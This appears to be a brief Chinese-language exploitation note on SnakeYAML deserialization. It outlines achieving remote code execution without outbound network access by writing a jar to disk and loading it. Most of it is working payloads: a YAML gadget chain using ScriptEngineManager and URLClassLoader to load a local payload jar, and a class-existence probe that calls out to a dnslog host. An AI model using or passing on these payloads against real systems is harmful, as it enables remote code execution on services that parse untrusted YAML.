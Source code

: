 # snakeyaml

## 不出网利用
>通过写文件然后本地加载rce

//todo 写一个工具 去完成


https://xz.aliyun.com/t/10655

限制了class,不过存在class bean中有object属性   https://mp.weixin.qq.com/s/7HJXfNibY9Z3DPGarTqyZQ

加载本地
```java
String data2 = "!!javax.script.ScriptEngineManager [\n" +
                "  !!java.net.URLClassLoader [[\n" +
                "    !!java.net.URL [\"file:E:/yaml-payload.jar\"]\n" +
                "  ]]\n" +
                "]";
```

## 判断类存在
```java
 String poc = "[!!判断的类全类名 []: 0, !!java.net.URL [null, \"http://ixvoxg.dnslog.cn\"]: 1]";
```
